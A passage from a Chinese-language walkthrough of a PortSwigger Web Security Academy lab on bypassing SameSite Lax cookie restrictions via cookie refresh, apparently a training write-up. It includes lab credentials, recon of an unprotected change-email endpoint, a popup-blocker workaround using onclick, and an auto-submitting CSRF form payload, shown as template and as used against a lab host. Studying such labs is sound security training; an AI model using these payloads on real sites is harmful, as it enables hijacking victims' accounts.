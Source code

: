 若要解决此问题，可以将语句包装在onclick事件处理程序中，如下所示：
window.onclick =()=&gt; {
    window.open('https://vulnerable-website.com/login/sso');
}

这样， window.open()方法只有在用户单击页面上的某个位置时才会被调用。 </code></pre>
<hr/>
5、涉及实验
实验10：通过cookie刷新绕过SameSite Lax



---


---


> 
<h3> 实验10：通过cookie刷新绕过SameSite Lax</h3>
信息：
1、本实验的更改电子邮件功能易受CSRF攻击
2、完成本实验：执行更改受害者电子邮件地址的CSRF攻击。应该使用提供的利用漏洞攻击服务器来承载攻击
3、已有账号：wiener:peter
<hr/>
part1:
帐户登录并更改电子邮件地址，HTTP历史记录中分析数据包


研究POST/my-account/change-email请求并注意到它不包含任何不可预测的令牌，因此如果可以绕过任何SameSite cookie限制，可能容易受到CSRF的攻击



查看GET /oauth-callback?code=[...]在OAuth流结束时请求。网站在设置会话Cookie时没有明确指定任何SameSite限制。因此，浏览器将使用默认的Lax限制级别



<hr/>
part2:
尝试CSRF攻击
在浏览器中，转到利用漏洞攻击服务器。
使用以下模板创建更改受害者电子邮件地址的基本CSRF攻击：
<pre><code>&lt;script&gt;
    history.pushState('', '', '/')
&lt;/script&gt;
&lt;form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST"&gt;
    &lt;input type="hidden" name="email" value="foo@bar.com" /&gt;
    &lt;input type="submit" value="Submit request" /&gt;
&lt;/form&gt;
&lt;script&gt;
    document.forms[0].submit();
&lt;/script&gt;

我的是：
&lt;script&gt;
    history.pushState('', '', '/')
&lt;/script&gt;
&lt;form action="https://0a3f00c7035245fbc295ac0c00560021.web-security-academy.net/my-account/change-email" method="POST"&gt;
    &lt;input type="hidden" name="email" value="foo@bar.com" /&gt;
    &lt;input type="submit" value="Submit request" /&gt;
&lt;/form&gt;
&lt;script&gt;
    document.forms[0].submit();
&lt;/script&gt;</code></pre>
